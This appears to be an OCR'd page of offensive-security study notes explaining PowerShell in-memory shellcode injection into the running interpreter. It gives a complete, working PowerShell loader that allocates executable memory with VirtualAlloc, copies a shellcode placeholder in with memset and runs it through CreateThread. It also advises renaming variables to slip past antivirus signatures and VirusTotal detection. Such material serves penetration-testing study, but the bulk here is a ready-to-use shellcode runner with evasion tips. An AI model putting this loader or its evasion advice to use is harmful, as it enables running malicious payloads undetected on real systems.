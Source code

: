Will use a technique similar to *Remote Process Memory Injection*.
Main difference - we'll target the currently executing process: PowerShell Interpreter.

A very powerful feature of PowerShell is its ability to interact with the Windows API.
This allows us to implement the in-memory injection process in a PowerShell script.
One of the main benefits of executing a script rather than a PE is that it is difficult for antivirus manufacturers to determine if the script is malicious as it's run inside an interpreter and the script itself isn't executable code.
Keep in mind that some AV products handle malicious script detection with more success than others.

Furthermore, even if the script is marked as malicious, it can easily be altered.
Antivirus software will often review variable names, comments, and logic, all of which can be changed without the need to recompile anything.

As they often rely on static string signatures related to meaningful code portions, such as variables or function names.
As VirusTotal will scan this as malicious by numerous vendors (including Avira), we can swap out variable names to change it just enough for it to run

```powershell
$code = '
# Import _VirtualAlloc_ from kernel32.dll to allocate memory
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

# Import _CreateThread_ from kernel32.dll to create an execution thread
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

# Import memset from msvcrt.dll to write arbitrary data to the allocated memory using _VirtualAlloc_, which takes each byte of the payload stored in the _$sc_ byte array and writes it to our newly-allocated memory block using _memset_.
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';

# Use different variable names to avoid detection
$var2 = 
  Add-Type -memberDefinition $code -Name "iWin32" -namespace Win32Functions -passthru;

# Allocate a block of memory
[Byte[]];
[Byte[]]$var1 = <place your shellcode here>;

$size = 0x1000;

if ($var1.Length -gt 0x1000) {$size = $var1.Length};

$x = $var2::VirtualAlloc(0,$size,0x3000,0x40);

for ($i=0;$i -le ($var1.Length-1);$i++) {$var2::memset([IntPtr]($x.ToInt32()+$i), $var1[$i], 1)};

# In-memory written payload is executed in a separate thread using the _CreateThread_ API
$var2::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };
```
  